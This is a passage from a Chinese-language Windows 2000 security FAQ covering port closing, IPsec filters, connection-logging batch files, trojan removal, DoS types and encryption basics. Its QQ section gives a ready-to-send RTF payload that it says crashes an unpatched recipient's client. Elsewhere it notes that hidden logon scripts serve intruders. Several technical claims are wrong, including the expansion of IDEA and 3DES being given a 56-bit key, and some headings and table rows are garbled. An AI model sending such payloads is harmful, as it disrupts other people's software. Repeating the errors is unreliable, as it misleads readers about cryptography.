打开后，可以看到文件中记录了关于这个配置的一些情况，但是好像找不到有端口号这一项，看来没办法了，只好自己给它加上去。按照 win2k 中的写法，应该是 `server port`，但是这里不能写 `server port = 3389`，要和人家的格式一样，写为 `server port:i:3389`，随便写在哪里都可以（图 10-12），然后选择保存。再双击这个快捷连接方式的时候，会发现居然没有任何问题，呵呵，看来这个办法没有错。就按照这个样子，如果端口为其他值，也这样修改就可以了。


图 10-12

> 打开防火墙后，设置了监听 QQ 应用程序，然后发现防火墙一直警报，就是没有好友信息，请问这是为什么？

监听 QQ 的时候，不一定有好友登录或发信息给你的时候才会报警。还有一种情况会产生报警，那就是你的 QQ 与腾讯服务器相互通信的时候。QQ 的信息需要腾讯服务器转发给好友，所以正常情况下，腾讯的 QQ 服务器每隔一段时间会与你的 QQ 进行一次通信。我想这里之所以会报警就是因为这个。

> 听说用 nc 可以监听端口，如果我想要监听本地的端口 80，来监视谁在与我进行连接，该怎么做？

用这个命令：`nc -vv -l -p 80`，这样的话，当有人对本机端口 80 进行连接的时候，就会发现并能够查看到对方的一些基本信息（图 10-13）。


图 10-13

但是，这样进行监听的话，只能监听一次连接会话而已。如果想不断地对本地端口 80 进行监视，可以写一个批处理：

```bat
@echo off
:nc
nc -vv -l -p 80 >> c:\port80.txt
goto nc
```

运行这个批处理，直到按下 `Ctrl+C` 它才会结束。所有记录都将被写到 C 盘下的 `port80.txt` 文件中。

> 如何关闭 445 端口？

445 端口是 TCP 端口。在 win2k 中，可以说 445 端口是 139 端口的一个辅助端口。当通过 139 端口共享文件失败的时候，将会启用 445 端口，所以无形中，对一些保密性要求比较高的系统来说，该端口也是一个隐患。关闭的最好方法是修改注册表，位置如下：

```text
HKEY_LOCAL_MACHINE\System\ControlSet\Services\NetBT\Parameters
```

这里新建一个 DWORD 值，名为 `SMBDeviceEnabled`，其值设置为 `0`，然后重启计算机生效。

## 什么是 IPsec？

IPsec 是基于密码学的保护服务和安全协议套件，它不需要更改原有的应用程序或者协议就可以实现加密，非常方便。IPsec 是一个协议，在加密的时候，需要将它加在 TCP/IP 协议模型中的第三层和第四层之间，这样就可以实现加密。所以说，对现有协议和未来的 IPv6 都可以使用 IPsec。

在 IPsec 中，可用的加密有：具有 56 位密钥的数据加密标准（DES）；具有 56 位密钥的三重 DES（3DES）。

## 如何关闭掉 135 端口？

135 端口是 Windows 的 RPC 及其相关服务所打开的端口，这些服务比较重要，所以如果想通过关闭服务来关闭该端口，则不太可能，因为这样会影响系统运行。因此建议使用 IPsec。win2k 默认安装下就自带了 IPsec 策略，非常好用。

控制面板→管理工具→本地安全策略→IP 安全策略，在本地机器。在这里，右键“IP 安全策略，在本地机器”，选择“管理 IP 筛选器表和筛选操作”。在“管理 IP 筛选器表”选项卡中选“添加”，然后在名字和描述中写上你想要的名字，这里我写的是“deny 135”（图 10-14）。


然后再点右边的“添加”，接下来依次选择：源地址为任何 IP 地址、目的地址为我的 IP 地址，协议类型中选择 TCP，接下来端口选择从任意端口到 135 端口（图 10-15）。


然后“下一步”一直到完成。再选择“管理筛选器操作”选项卡，选择“添加”→“下一步”，需要进行命名和描述，这里我仍使用 `deny 135`，“下一步”，选择“阻止”，然后一直到完成即可。

这时候，在“管理 IP 筛选器表”中双击刚才创建的 `deny 135`，再双击筛选器下关于镜像的描述（图 10-16）。


这时候会看到，在这里我们可以选择是否使镜像起作用，打钩的话起作用，反之则不起作用。

关于镜像，说一下：如果选择镜像，那么如果你禁止掉任何 IP 访问你的 135 端口，同样地，你也不能访问任何 IP 的 135 端口（或者说不能对 135 发送请求更合适一些）。镜像是否选择看大家的需要。

这时候就可以关闭“管理 IP 筛选器表和筛选操作”了，然后再右键“IP 安全策略，在本地机器”，这次选择“创建 IP 安全策略”，然后输入“名称和描述”，我仍使用“deny 135”（这样不容易混淆）。在下一步的时候会出现“激活默认响应规则”，这里不要选。然后“下一步”一直到完成。完成后会弹出“deny 135”属性，在这里点“添加”，一直下一步来到“身份验证方法”这里（图 10-17）。


机器如果没有在域里，就不要使用 Kerberos 验证方式，而是自己输入密钥。接下来的两步会要求选择筛选列表和筛选操作，在这里均选择刚才创建的“deny 135”（图 10-18、10-19）。


然后“下一步”到结束，再关闭所有对话框。然后在“IP 安全策略，在本地机器”中就会看到刚才新建的 IP 策略“deny 135”（图 10-20）。右键选择它，会出现“指派”的字样，选择指派该策略就可以了。


> 为什么大家要阻止 135 端口的数据请求呢？因为在 win2k 的 135 端口上存在一些小问题，如果向这个端口发送畸形 UDP 数据包的话，就有可能形成 DoS 攻击，使主机瘫痪。

## 什么是防火墙规则？

我们可以简单地认为，一条防火墙规则就可以确定对一种数据包的丢弃或屏蔽等。例如，制定一条防火墙规则为阻止 135 端口的请求，那么该规则就是对所有发送至 TCP 135 端口的请求数据进行丢弃。

## 如何使用登录脚本来关闭 ipc$ 这些默认共享？

在入侵常见问题部分说过了使用开始菜单中的启动项来关闭 ipc$ 等共享。这里我们来使用登录脚本关闭它。

“开始”→“运行”→键入 `mmc`，进入微软控制台（图 10-21）。


点击菜单“控制台”，选择“添加/删除管理单元”，再点“添加”按钮。然后在弹出的窗口中选“组策略”并点“添加”（图 10-22），接着会询问你是添加在哪一台计算机上，使用默认的本地计算机，点完成就可以了。然后保存该控制台。


然后来到这个位置：`C:\WINNT\system32\GroupPolicy\User\Scripts\Logon`（假设 win2k 安装在 C 盘上。注意：`GroupPolicy` 文件夹默认是隐藏的。如果没有找到，可以自己建立）。

在这里写一个批处理文件，名为 `delshare.bat`，内容为：

```bat
for %%x in (C$ D$ E$ F$ G$ admin$ ipc$) do net share %%x /del
```

然后打开刚才用 MMC 保存的组策略，选择“用户配置”→“Windows 设置”→“Internet Explorer 维护”→“脚本（登录/注销）”（图 10-23），双击右窗口中的“登录”，然后点“添加”，通过浏览找到 `delshare.bat` 文件，然后确定（图 10-24）。


这时候关闭 MMC 控制台，会问你是否保存，点“是”就可以了。

然后重新启动计算机（或注销也可以），就会看到效果了（启动时自动删除所有默认共享）。

利用登录脚本可以做很多事情，当然也包括坏事。

> 没用过登录脚本的朋友我告诉你们，登录脚本在登录并运行过程中，并不像在启动菜单中的批处理文件一样会显示 cmd 命令行窗口，而是在后台进行的。因此，对很多入侵的朋友来说，如果你碰上一个糊涂管理员，他不会去检查这个脚本的位置和内容的话，使用登录脚本是一个不错的选择。

## 有没有办法防止 MAC 地址被盗用？

使用命令可以将 MAC 和 IP 地址绑定，这样可以有效防止 MAC 被盗用。该方法在 win9X 以及 win2k/XP 中均可使用。

首先，先使用 `ipconfig /all` 命令在要绑定 IP 的机器上查看主机的 IP 地址和 MAC 地址（图 10-25）。


图 10-25

然后，就可以使用 `arp` 命令进行绑定了，格式为：`arp ip_address mac_address`。执行后看不到什么成功信息，但是只要没返回失败信息就说明绑定成功了（图 10-26）。


图 10-26

如果想解除绑定，直接使用 `arp` 命令就可以了，同样也没有什么返回信息（图 10-27）。


图 10-27

**注意：**如果在使用 `arp ip_address mac_address` 命令过程中，其中的 MAC 地址是错误的，会怎么样？大家试一下，会发现也是可以的。例如将某个 IP 地址（如 `192.168.0.1`）和全 F 的 MAC 地址 `ff-ff-ff-ff-ff-ff` 进行绑定，ARP 缓存中仍可能显示为 static（静态），但这会对网络传输带来不良影响。

## 最近，我好像经常遭受到别人的 DoS 攻击，但是我又不能肯定，怎么才能判断呢？

一般来说，个人上网如果遭受到 DoS 攻击，对方很有可能是一个人或很少几个人做的，不可能像攻击大型站点一样使用几十甚至几百台肉鸡来针对个人用户进行攻击。

一般来说，个人使用的 DoS 攻击工具，除了针对一些漏洞的 DoS 攻击外，就是使用大量伪造 IP 对个人发送垃圾数据包，导致系统资源上升。

判断方法很简单：安装防火墙，屏蔽掉多余端口或不需要协议的数据包，例如 ICMP 的 echo 请求（ping 请求），这样就可以抵挡大部分 DoS 攻击；另外，在别人攻击你的时候，还可以发现攻击来自何方以及攻击类型。

一般情况下，如果发现大量不存在的或连续的 IP 地址向你发送大量数据包，那么很有可能就是 DoS 攻击了，立刻使用防火墙规则屏蔽掉该数据包发送端口或屏蔽掉该协议的数据包。

另外，除了使用伪造数据包来 DoS 的方式外，还有针对个别漏洞进行 DoS 的。前面说过，针对 win2k 和 winXP 的 135 端口发送畸形数据包可以导致系统重启（图 10-28）。


图 10-28

这种攻击速度快，成功率相对比较高，而且如果察觉得稍晚的话，呵呵，就来不及了。

## 常见的 DoS 攻击都有哪些？

有几种非常流行而且很有名气的 DoS 攻击手段，在此列出：

- **Synflood**：该攻击以多个随机的源主机地址向目的主机发送 SYN 包，而在收到目的主机的 SYN ACK 后并不回应。这样，目的主机就为这些源主机建立了大量连接队列，而且由于没有收到 ACK 一直维护着这些队列，造成资源大量消耗而不能向正常请求提供服务。打个比喻，比如到某地，在某一段时间内只有一辆车可以到达，那么你以电话或网上订票方式并伪装成多个人，将全部车票订下来，而且你也不会乘坐这辆车，那么最后造成的后果就是想去的人因为买不到票而不能实现。
- **Smurf**：该攻击向一个子网的广播地址发一个带有特定请求（如 ICMP 回应请求）的包，并且将源地址伪装成想要攻击的主机地址。子网上所有主机都回应广播包请求而向被攻击主机发包，使该主机受到攻击。这个攻击的关键在于这个子网的路由器，如果路由器不将该地址转换并翻译成广播地址，那么攻击到路由器就将结束，无法完成攻击。
- **Land-based**：攻击者将一个包的源地址和目的地址都设置为目标主机地址，然后将该包通过 IP 欺骗方式发送给被攻击主机。这种包可以造成被攻击主机因试图与自己建立连接而陷入死循环，从而很大程度降低系统性能。这种攻击主要利用了系统在对本地地址解析时出现的 bug，主要是在早期 NT 主机上使用的一种攻击方式，该法对 win2k 没有任何作用。
- **Ping of Death（死亡之 ping）**：根据 TCP/IP 规范，一个包的长度最大为 65536 字节。尽管单个包长度不能超过 65536 字节，但是一个包分成的多个片段叠加却能做到。当主机收到了长度大于 65536 字节的包时，就是受到了 Ping of Death 攻击，该攻击会造成主机宕机。在微软 Windows 操作系统中，`ping` 命令中每次最大只能发送 65500 字节大小的包。要想实现这种攻击就必须是一对多，而且要用持久战。
- **Teardrop（泪滴）**：IP 数据包在网络传递时可以分成更小片段。攻击者可以通过发送两段（或者更多）数据包来实现 Teardrop 攻击。第一个包的偏移量为 0，长度为 N；第二个包的偏移量小于 N。为了合并这些数据片段，TCP/IP 堆栈会分配超乎寻常的巨大资源，从而造成系统资源缺乏甚至机器重启。也是针对早期 NT 主机的一种攻击手段，现在的 win2k 系统早已修复了这个 bug。

## win2k 部分

### PingSweep

使用 ICMP Echo 轮询多个主机。

### Pingflood

该攻击在短时间内向目的主机发送大量 ping 包，造成网络堵塞或主机资源耗尽。


> 最近我的 QQ 发送消息的时候后面总会带上一个网址，这是怎么回事啊？


爱情森林 QQ 木马，很厉害的一个家伙。不但通过 QQ 传播，而且感染后还能通过 e-mail 传播病毒，只要一不小心点击那个地址进入，就会中招。

该木马程序原始文件名为 `hack.exe`，用 Delphi 编写，并用 UPX 进行了压缩。复制自身到 Windows 操作系统的 `system` 目录（通常为 `windows/system`）下，并改名为 `Explorer.exe`。由于它和 Windows 目录下的 Explorer 文件同名，因此会迷惑用户，使用户误认为这是正常系统文件。该木马还会修改注册表，另外还会自动下载具有破坏能力的病毒。

现在金山已经推出了专杀工具，中招的朋友可以去下载安装。

如果不愿意使用工具，还有手工清除办法：

先打开任务管理器，结束掉位于下面的那个 Explorer 进程（如果是 win98 系统，则需要使用优化大师之类的软件来查看并结束进程），然后删除系统目录下的木马程序 `Explorer.exe`。或者重启到 DOS 下，进入 system 目录直接删除该木马程序。

然后打开注册表编辑器，删除 `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run` 下名为 `Explorer` 的键值。

这样就没有问题了。


> 最近我的 QQ 总是掉线，先是报告 QQ 出错，然后就掉了，怎么回事啊？


最近 QQ 还真是不安稳，又是木马又是溢出。造成 QQ 掉线的原因我想就是因为溢出攻击。

在 QQ2000 安装目录的文件 `riched20.dll` 中存在一个缓冲区溢出漏洞。该漏洞可导致使用此 DLL 模块相应功能的应用程序崩溃，但很难被用来执行任意代码。问题出现在其对 RTF 文档分析的代码中，其对文档中属性标示中的数字（如字体大小）等处理不当，使其出现溢出。

我们只要在 QQ 消息中贴上这段代码并发给对方，如果对方没有做过修补，就有可能会掉线：

```text
{\rtf1\ansi\ansicpg936\deff0\deflang1033\deflangfe2052{\fonttbl{\f0\fnil\fcharset134 'cb'ce'cc'e5;}}
\fs18000000000000000000000000000000
```

解决办法很简单，只要下载一个做过修补的 `riched20.dll` 文件，覆盖原文件就可以了。

**注意：**关于这个溢出有两种说法。起初都说这个溢出错在腾讯公司，因为该溢出发生在 QQ 的文件中；但是后来又有说法说，溢出的最终原因是因为微软的……windows 系统的问题，呵呵，不知道到底哪个是真的，都有待证实啊。

## 什么是 CGI 的后门程序？如何防范？

CGI 后门就是入侵者编写一个可以调用系统中应用程序的 CGI 页面，然后将它隐藏在管理员不容易发现的地方，以便自己访问并达到操作电脑的目的，是一个不错的后门程序。例如，ASP 木马，大家都应该听说过吧，这就属于一个 CGI 后门。

对于 CGI 后门程序的防范方法，一般就是定期查看自己的 Web 服务器的虚拟目录，还有就是查看日志，必须要求勤奋细心，这样很容易就会发现异常。对于懒惰的管理员来说，一个 CGI 的后门也许将能控制他的服务器一辈子（除非他重装系统或是停掉 Web 服务器）。

## 我的机器总是收到 IGMP 数据包，时间稍微一长，就造成死机！怎么解决？

长时间的 IGMP 导致死机，从这点看来，应该是针对 Windows 的 IGMP 的 nuke 攻击。安装防火墙阻止 IGMP 数据到达本机就是最好的办法了。

## win2k 下，如何彻底关闭 NETBIOS 端口呢？

首先，要先解除掉 NETBIOS over TCP/IP，也就是解除 NETBIOS 在 TCP/IP 上的绑定。

右键“网上邻居”选择“属性”，然后在“网络和拨号”连接对话框中选择“高级”菜单，并选择“高级设置”（图10-29）。


在高级设置的本地绑定中，可以看到 NETBEUI Protocol 前有打钩（图10-30），只要去掉钩，并点确定就可以了。


然后，要先删除 NETBEUI 协议。右键“网上邻居”，选择属性，在里面找到本地连接，然后右键并选属性，在这里可以删除 NETBEUI 协议（图10-31）。


这样，所有的工作就完成了，现在就不用怕 NETBIOS 端口泄露信息了。

## win2k部分

在使用命令 `nbtstat -A 192.168.0.1` 的时候，会看到 NAME 下有很多东西，那些东西都是什么意思啊？（图10-32）


图中第一行就是主机名，这里为：`X-HUNTER`；第二行则表明了 X-HUNTER 所在工作组，这里可以清楚地看到，其所在工作组就为 `WORKGROUP`。另外，从 `<__MSBROWSE__>` 这里可以看出来，在这个局域网内，该主机是主浏览服务器。

> 关于主浏览服务器：在局域网（LAN）内，每个网段内部会通过竞争的方式竞选出一个浏览服务器（竞选过程为广播），以维护主机及共享资源列表。在 win2k 中，有一个服务为 Computer Browser，就是这个作用。

在这个实际的例子中，我已经关闭了除了这台主机外的其他所有计算机的 Computer Browser 服务，所以，不用说，这台主机肯定就是主浏览器了。另外，除了上面说的几个以外，我们还可以通过很多地方来判断并获取主机信息，在此列出：

| 标识 | 类型 | 名称 | 说明 |
|---|---|---|---|
| 00 | U | Workstation | Service |
| 01 | U | Messenger | Service |
| `<__MSBROWSE__> 01` | G | Master | Browser |
| 03 | U | Messenger | Service |
| 06 | U | RAS Server | Service |
| 1F | U | NetDDE | Service |
| 20 | U | File Server | Service |
| 21 | U | RAS Client | Service |
| 22 | U | Exchange | Interchange |
| 23 | U | Exchange | Store |
| 24 | U | Exchange | Directory |
| 30 | U | ModemServer | Service |
| 31 | U | ModemClient | Service |
| 43 | U | SMS Client | Remote Control |
| 44 | U | SMS Admin | Remote Control Tool |
| 45 | U | SMS Client | Remote Chat |
| 46 | U | SMS Client | Remote Transfer |
| 4C | U | DEC Pathworks TCPIP | Service |
| 52 | U | DEC Pathworks TCPIP | Service |
| 87 | U | Exchange | MTA |
| 6A | U | Exchange | IMC |
| BE | U | Network Monitor | Agent |
| BF | U | Network Monitor | Apps |
| 03 | U | Messenger | Service |
| 00 | G | Domain Name |  |
| 1B | U | Domain Master | Browser |
| 1C | G | Domain Controllers |  |
| 1D | U | Master Browser |  |
| 1E | G | Browser Service Elections |  |
| 1C | G | Internet Information Server |  |
| 00 | U | Internet Information Server |  |
| [2B] | U | Lotus Notes Server |  |
| IRISMULTICAST [2F] | G | Lotus Notes |  |
| IRISNAMESERVER [33] | G | Lotus Notes |  |

Forte_$ND800ZA [20] U_DCA  
Irmalan Gateway Service

呵呵，不少哦，其实，很多在我们普通的网络或是局域网中都是见不到的，不过，如果哪位朋友有机会管理一下大型的域的话，嘿嘿，有些东西就会经常见到了。

## 什么是端口反弹型木马？

端口反弹型木马的最先例子大概就是“网络神偷”。它与传统的木马不同，传统的木马在建立连接的时候，都是木马的 client（客户，控制端）端主动连接 server（服务，被控制端）端的。而端口反弹型木马则不一样，它会由 server 端先发起连接请求，然后与 client 端建立起一个连接，这样就达到了远程控制的目的。并且，这样一来，还可以监视着对方，监视对方什么时候上线，上线后获得的 IP 地址是什么，而且，由于是由 server 端主动发起的连接，所以，不用担心对方的 IP 地址会改变，并且，即使对方在内部的局域网中，也不用担心无法连接，这些都是传统的木马不能做到的。

但是，使用端口反弹木马的最主要目的，其实还是由于它能躲过大多数防火墙（注意，是防火墙，不是杀毒软件，不要混淆防火墙与杀毒软件这两个概念），因为它是由机器主动发起连接，也就是说，它会主动去寻找黑客并告诉黑客“来黑我吧”，所以，是一般防火墙所不能屏蔽的。

不过，大家不用担心，只要对出站数据做一下过滤，这种木马也将失效。

## 如何不让别人查出我的 IP？

使用代理服务器，这是最简单而且也是最有效的方法了，而且，除了使用代理服务器之外，现在好像也没有什么其他的方法可以更好地解决这个问题了。

关于如何制作和配置代理的问题，在 win2k 的入侵问题部分已讲过了。

## 什么叫对称加密？

加密和解密的时候都使用同一把钥匙，这就是对称加密了。

在密码学中，加密时候使用的钥匙叫做密钥。因此，更为准确的说法是，对同一个数据在加密和解密过程中使用的密钥相同，就叫做对称加密。

常见的、最著名的对称加密就是 DES 了。

## 什么叫非对称加密？

非对称加密（不对称密钥加密）这种加密过程需要两个密钥：一个是私人密钥，另外一个则是公开密钥。公开密钥是任何人都可以知道的，而私人密钥则只能该密钥的拥有者知道而已。

简单描述一下加密过程：有数据要被加密的时候，发送数据者先用接收数据者的公开密钥进行加密，当接收者接收到数据的时候，用自己的私人密钥解密即可。

大家可以看见，概念上，不对称密钥加密是很简单的，而且也很容易理解。但是，在一个人的私人密钥和公开密钥的生成上，是有一定难度的。大家不要错误地认为私人密钥和公开密钥是没有关系的，这是错误的观点，两个密钥之间的关系是存在的，而且比较复杂，为的就是在入侵者掌握了一个人的公开密钥的情况下，不能将其私人密钥反算出来。由此可见这对密钥生成过程的复杂性。不过，由于其保密性好，现在，越来越多的软件开始使用不对称密钥加密。

采用该加密方式比较著名的加密方法有 RSA 和 Diffie-Hellman。

## 什么是数字证书？

数字证书相当于一个人的电子化身份证一样。证书里面将记录一些帮助确认用户身份的信息，例如：发信人的公开密钥、发信人的姓名、证书颁发者的名称等等。

数字证书上要有值得信赖的颁证机构的数字签名。

数字证书的作用就是对人或计算机的身份以及公开密钥进行验证。

另外，数字证书是可以申请的，你既可以向一家公共的颁证机构申请数字证书，也可以向自己的运行有证书服务器的私人机构申请。如果你是使用 win2k svr 以上版本的操作系统的话，在本地计算机上，就可以启动证书颁发机构。在“控制面板”->“管理工具”->“证书颁发机构”（图10-33）。由于篇幅问题，就不说如何使用它了，请自己查阅相关资料吧。


**注意：**该服务要有域的模型才可以，如果没有域的话，服务会启动失败的。

## 什么叫做数字签名？

数字签名，digital signature，简称 DS。

DS 通过某种加密算法（是什么加密算法偶也不清楚）在一条消息的尾部添加上一个字符串，而收信人则可以根据这条字符串来验证发信人的身份。有些数字签名还提供了校验机制，这样就能保证该签名在传输过程中没有被修改过了。

## 什么是 SSL？

SSL——Secure Socket Layer，安全套接层协议，由网景公司开发。作用就是在 Web 的客户和服务器之间建立一个安全的通道。

SSL 是建立安全通道的一层协议，也就是说，SSL 是网络协议栈 TCP/IP 栈之上的一层协议。

SSL 提供的服务包括：安全加密通道、服务器（客户端）身份验证、信息数据的完整性检查等。

SSL 的准确位置是在 TCP/IP 协议栈的第三和第四层之间，正是因为这个位置的特殊性，所以，从理论上讲，SSL 是可以给任何的应用级网络通信提供加密或是安全通道的。

## 什么是 TLS？

传输层安全协议（Transport Layer Security），是由“因特网工程部队（IETF）”组织开发的，是 SSL 协议第三版本的后继版本。

## 什么是 SSH？

SSH=Secure Shell。SSH 是一个安全通道协议，能够承载任何的应用层协议（这点和 SSL 非常相似）。SSH 主要用于 UNIX 系统的远程命令的加密（例如，rsh、rcp、rlogin 等等）。

## 什么是 PGP？

PGP=Pretty Good Privacy。它能够提供数字签名和数据加密的服务。

PGP 是混合使用了 RSA 和 IDEA（Internet Differential Equations Actives，因特网差分方程）。

PGP 的主要应用是在 E-mail 上，PGP 会先使用 IDEA 对数据信息进行加密，然后，再使用 RSA 对 IDEA 加密时使用的 IDEA 密钥进行加密以保证安全。解密过程则相反。

## 可以介绍一下计算机的几个安全级别吗？

美国国防部制订的“可信任计算机标准评估准则”（橙皮书），为计算机安全的不同级别制订了四个准则。这四个准则实际上包含七个安全级别，即 d1 级、c1 级、c2 级、b1 级、b2 级、b3 级和 a 级，分别表示从最低安全级到最高安全级。

d1 级计算机系统是不可信任的，硬件和操作系统很容易被侵袭，像 DOS、Windows 3.x 和 Windows 95/98 都属于 d1 级；c1 级系统称为无条件安全防护系统，要求硬件有一定的安全保护，用户使用计算机系统前要登录，系统管理员可以为一些程序和数据设立访问许可权限；c2 级系统则在 c1 级的基础上增强了受控访问环境特性，系统管理员可以对用户进行分组和分级授权，UNIX、Novell 3.x 以上版本、Windows NT 都能达到 c2 级安全性；b1 级系统也叫符号安全防护，支持多级安全，我国一些重要部门中使用的信息系统，一般都是剥离 c2 级操作系统中的安全部分，增加自己的安全机制构成达到 b1 级甚至更高级别的系统；b2 级系统具有结构防护功能，系统中的所有对象要加标签，要为设备分配安全级别；b3 级又称安全域，要求用户工作站或终端通过可信任途径连接网络系统，并采用硬件保护系统的存储区；a 级是最高级，称为受核设计，历史上只有 Honeywell 曾设计过达到 a 级安全性的系统。

## 听说 win2k 的 445 端口好像会造成拒绝服务的攻击，是怎么回事呢？

下面是微软的公告：

## Windows 2000 445端口引起的拒绝服务

摘要：Windows 2000 中默认的 LANMAN 注册表设置可以让恶意的用户通过 445 端口登录，从而引起拒绝服务。

细节：

- 受影响的系统
  - Windows 2000 Server (SP0, SP1, SP2)
  - Windows 2000 Advanced Server (SP0, SP1, SP2)
  - Windows 2000 Professional (SP0, SP1, SP2)

发送异常的信息包（TCP 包）到端口 445，会导致 LANMAN 服务分配内核资源。这种攻击的结果是 Windows 2000 主机完全忽略这种连接而蓝屏。

这种攻击其实也可以简化为不停地发送 10k 大小的空字符串到 445 端口。

通常的状况是这样的：LANMAN 服务将会分配大量的基本内存给这些连接，直到出现内存不足；拖拽窗口会出现不完全的现象，通常的告警声不见了，取而代之的是警告“声卡的驱动程序无法被装载”；IIS 将无法运行 ASP 页面，当试图重启（如管理员等）会跳出“你无权重启计算机”的错误警告。

它会时常引起 CPU 资源的完全占用，于是你的计算机不得不去度周末（死机），除非它能自动恢复，不过很可惜，它不会。

> 我是管理员，但一般情况下我只以普通用户来登录计算机，但是一些程序需要以管理员的身份来运行，我该怎么做呢？

好说好说了，微软有这样的设计。在开始菜单的程序中，按住 Shift 键，然后右键要运行的程序，会在右键菜单中出现“运行方式”的选项（图10-34）。


选择这一项，会弹出一个窗口（图10-35），询问你要以哪个用户的身份运行这个程序，填上用户名和密码就可以以该用户的身份运行这个程序了。


> 如何才能记录从 3389 端口登录的用户？

Terminal Service 默认是没有日志记录的，只能依靠其他系统日志。但是，除非从 3389 登录的入侵者在系统中做过一些比较大的动作（例如开启或是停止服务），否则的话，日志是不会记录的。所以，我们有必要自己来编写一个监视 3389 端口的小程序了。不用紧张，涉及不到什么编程知识，完全是一个 DOS 的批处理文件而已，内容如下：

```bat
@echo off
:TS3389
netstat -an | find "3389" | find "ESTABLISHED" >> c:\3389log.txt
goto :TS3389
```

编写完成后存为一个 `*.bat` 文件，然后运行它，接下来就是不断地查看日志文件了。日志文件就是 C 盘下的 3389log.txt 了，里面会记录着所有与本机的 3389 端口有连接的主机的 IP 地址和端口号（图10-36），这样，很容易就可以找到入侵者了。


图10-36

但是，有个缺点，就是不会记录时间，所以，我们再来加点东西，写成这样：

```bat
@echo off

date /t >> c:\3389log.txt
:TS3389
time /t >> c:\3389log.txt
netstat -an | find "3389" | find "ESTABLISHED" >> c:\3389log.txt
goto :TS3389
```

这样的话，将可以得到更加细致的日志，里面不仅记录了当天的日志，还记录了连接的时间（图10-37）。嘿嘿，如果有人入侵你的话，这下可跑不掉了。


图10-37

我的系统是 win2k+NTFS，设置了权限，只有管理员能访问，后来由于有人要用机器，我就又给建立了一个帐号，也是管理员，但是他什么访问权限也没有，为什么啊？

最初建立的管理员为 A，后来由于需要而建立的管理员为 B，系统是根据用户的 SID 来识别用户的。由于 A 对磁盘进行了权限设置，而导致只有他才有访问权限，那么，B 进行访问的时候，由于没有权限，所以访问被拒绝。如果想要使 B 也能访问的话，有两个办法：一个是使用帐号 A 来给帐号 B 赋权限，另外一个则是使用帐号 B 也可以获得权限。

要清楚，B 是管理员，在 win2k 的管理机制中，除非用户使用了 EFS 加密，否则，对管理员来说，是没什么能阻挡得住他的。默认情况下，一个文件或是文件夹，只有它的创建者（也就是拥有者，owner）才有访问的权限，但是，作为一个管理员，他却可以取得该文件或是文件夹的所有权，以达到访问并完全控制该文件或文件夹的目的。

例如，针对某个磁盘分区，一个管理员要使用“取得所有权”的话，右键中选择“属性”，再选择“安全”卡片，点“高级”，出现的选项卡中再选择“所有者”，在这里，只有指定一个管理员，并钩选“替换子容器及对象的所有者”（图10-38），然后点“确定”退出就可以了。


图10-38

## 在 Win2k 中，想要保护文件或是文件夹，该怎么才能给文件加密？

就像上一个问题说的一样，Win2k+NTFS 中（注意，必须是使用 NTFS 文件系统格式才可以），可以实现 EFS 加密，而且安全性是没有话说的。加密的方法也很简单：首先选择要加密的文件或者文件夹，然后右键，选择“属性”，在“常规”选项卡上点“高级”，会再弹出一个对话框，在这里选择“加密内容以保护数据”（图10-39）。


图10-39

这样一来，将只有文件或者文件夹的创建者才能访问，而且，访问过程中的解密过程对用户来说也是透明的，只要直接点击查看就可以了。

## 什么是陷阱账号？

陷阱账号是管理员建立的一个权限极低的、用来欺骗黑客的账号。一般情况下，一个陷阱账号具备以下几个特点：

- 1. 用户名与系统默认的管理员名极其相似甚至相同。Win2k 中默认的管理员账号为 administrator，如果将 administrator 改名，这时候系统就会允许我们再建立一个用户名为 administrator 的账号了，并且只给该账号 users 组的权限（图10-40）。
- 2. 权限极低，基本上什么事都做不了，至于原因就不用我说了吧。
- 3. 可以打开一些特定的文件，或是可以以某种方式连接或是登录主机。这些都是管理员在创建账号的时候精心设计的，之所以这么做，目的就是为了起到监视的作用。陷阱账号能运行的一些程序，或是一些连接和登录方式，很有可能是被管理员加上了审核，或是做了什么手脚，以便能记录他的动作和所在地。例如：有可能这样进行设置，一个人得到陷阱账号后，可以对一个磁盘进行完全控制。那么，当他得意洋洋地删除掉磁盘的全部内容之后会发现，他无法清除日志记录。显然，管理员动过手脚，就是为了抓住这个破坏者。


图10-40

至于密码是强是弱，应该不在陷阱账号的特点之内。因为这会根据管理员的目的不同而不同，所以根据密码的强弱并不能断定一个账号是否为陷阱账号。

## 经常有人给我发骚扰信，我该如何追踪邮件？

无论是从理论上还是从实际情况上来分析，直接追踪到发件人基本上都是不可能的事情。

一封邮件中，唯一可以用来查看邮件发送信息的部分就是邮件头部分，而邮件头部分中却只能记录到发件人所使用的发件服务器而已，是不可能准确定位到发件人的 IP 地址的。

例如，我使用 OE 来查看一封信的相关信息，打开信件后，选择“文件—属性”（图10-41）。


图10-41

在属性卡片中，再选择“详细信息”（图10-42），从图中不难看出，我们只能从里面获得信件的以下信息：


图10-42

```text
from inter.100ok.com ([219.238.254.18])
for python@yspc.com
sender@maillist.csdn.net
```

这个是邮件服务器的地址  
这个则是我的 mail 地址  
这个是对方的 mail 地址

除了这些，就是一些服务器的基本系统信息了，根本无法找到发信人的具体地址。因此，追踪邮件在没有特殊手段的情况下，是不可能成功追踪到的。

## SA 密码是什么？

sa = system administrator，是数据库工具 SQL 的管理员账户，类似于 Win2k 的用户 administrator，有着至高无上的权利和权限。在默认安装 SQL 的时候，如果不手动更改它的密码，那么默认就是空。获取 sa 密码是进一步入侵主机、扩大战果的一个常见手法，所以要把 sa 密码作为重点保护对象才可以。

## 怎么样才可以查看与本地机有连接会话的主机？

两个办法：第一是使用命令 `net session`，这样可以清楚地看到与本地机建立了会话的主机名和建立会话的时间以及使用的用户（图10-43）。


图10-43

另外，还可以使用“计算机管理”进行查看。该工具在 Win2k 的管理工具中可以找到。在计算机管理中有一项“共享文件夹”，在这下面可以看到有一项“会话”，里面会很清楚地列着本地主机的会话状况（图10-44）。


图10-44

接下来说一下如何关闭会话：

先说说使用计算机管理关闭会话的方法，还是刚才的那个地方，只要右键想要关闭的会话，在右键菜单中选择“关闭会话”就可以了（图10-45）。


图10-45

`net session \\computer_name /del`

命令行下关闭会话，直接使用命令就可以了（图10-46）。


图10-46

> 关于会话，有些问题是值得一提的。有兴趣的朋友可以跟着我说的步骤来做做看。  
>  
> 首先，两台电脑，在 A 机上，开始运行 `\\B机地址\share`，这样 A 机就可以访问 B 机上的共享资源了。这时候，还是在 A 机使用上面说的任意一种方法来查看会话状况，会发现是没有任何会话的。  
>  
